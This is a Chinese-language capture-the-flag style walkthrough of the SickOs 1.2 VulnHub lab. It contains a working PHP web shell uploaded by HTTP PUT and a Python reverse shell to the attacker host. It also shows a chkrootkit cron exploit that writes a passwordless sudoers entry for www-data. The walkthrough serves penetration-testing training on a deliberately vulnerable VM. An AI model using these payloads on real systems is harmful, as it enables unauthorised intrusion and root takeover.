






# SickOs 1.2

下载地址：https://download.vulnhub.com/sickos/sick0s1.2.zip

## 实战操作

扫描靶场IP地址：`192.168.32.148`



扫描端口，发现只开启**22**和**80**端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT  -p1-65535 192.168.32.148                                                                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-30 22:30 EDT
Nmap scan report for 192.168.32.148
Host is up (0.00067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:3D:60:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 104.58 seconds
                                                                     
```

浏览器访问80端口


使用目录扫描器只扫描到**test**目录



通过 curl 检查可用方法时，PUT 方法可用。这可用于上传反向 shell。

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X OPTIONS  http://192.168.32.148/test/
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Tue, 31 May 2022 10:40:36 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact

```

通过 PUT 请求利用文件上传，使用 curl 上传包含以下代码的 PHP 文件，这将允许我们远程执行代码：

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X PUT -d '<?php echo system($_REQUEST['cmd']);?>' http://192.168.32.148/test/shell.php
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 36
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 31 May 2022 10:41:40 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact
```



通过 cmd 参数执行 python 反向 shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

仍然没有收到反向shell。一段时间后，**使用端口 443 成功**。这表明 iptables/firewall 仅允许在选定端口上的出站流量。



查看Linux发行版和内核

```
www-data@ubuntu:/var/www/test$ uname -a
uname -a
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
www-data@ubuntu:/var/www/test$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.4 LTS"
NAME="Ubuntu"
VERSION="12.04.4 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.4 LTS)"
VERSION_ID="12.04"

```

查看定时计划，找到**chkrootkit**的计划任务

```
www-data@ubuntu:/var/www/test$ cat /etc/cron.daily/chkrootkit
cat /etc/cron.daily/chkrootkit
#!/bin/sh

set -e

CHKROOTKIT=/usr/sbin/chkrootkit
CF=/etc/chkrootkit.conf
LOG_DIR=/var/log/chkrootkit

if [ ! -x $CHKROOTKIT ]; then
  exit 0
fi

if [ -f $CF ]; then
    . $CF
fi

if [ "$RUN_DAILY" = "true" ]; then
    if [ "$DIFF_MODE" = "true" ]; then
                                eval $CHKROOTKIT $RUN_DAILY_OPTS > $LOG_DIR/log.today.raw 2>&1
                                # the sed expression replaces the messages about /sbin/dhclient3 /usr/sbin/dhcpd3
                                # with a message that is the same whatever order eth0 and eth1 were scanned
                                sed -r -e 's,eth(0|1)(:[0-9])?: PACKET SNIFFER\((/sbin/dhclient3|/usr/sbin/dhcpd3)\[[0-9]+\]\),eth\[0|1\]: PACKET SNIFFER\([dhclient3|dhcpd3]{PID}\),' \
                                -e 's/(! \w+\s+)[ 0-9]{4}[0-9]/\1#####/' $LOG_DIR/log.today.raw > $LOG_DIR/log.today
        if [ ! -f $LOG_DIR/log.expected ]; then
                                                echo "ERROR: No file $LOG_DIR/log.expected"
                                                echo "This file should contain expected output from chkrootkit"
                                                echo
                                                echo "Today's run produced the following output:"
                                                echo "--- [ BEGIN: cat $LOG_DIR/log.today  ] ---"
                                                cat $LOG_DIR/log.today
                                                echo "--- [ END: cat $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To create this file containing all output from today's run, do (as root)"
                                                echo "# cp -a $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
                                elif ! diff -q $LOG_DIR/log.expected $LOG_DIR/log.today > /dev/null 2>&1; then
                                                echo "ERROR: chkrootkit output was not as expected."
                                                echo
                                                echo "The difference is:"
                                                echo "---[ BEGIN: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                diff -u $LOG_DIR/log.expected $LOG_DIR/log.today || true
                                                echo "---[ END: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To update the expected output, run (as root)"
                                                echo "#  cp -a -f $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
        fi
    else
        eval $CHKROOTKIT $RUN_DAILY_OPTS
    fi
fi

```

查看exp信息

```
┌──(root💀kali)-[/opt]
└─# searchsploit -x linux/local/33899.txt
```



因此，如果我们创建一个 bash 脚本并将其放在目录中调用的文件`update`中`/tmp`并设置其可执行权限，它将以 root 身份运行。

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod 777 /tmp/update
sudo su
```


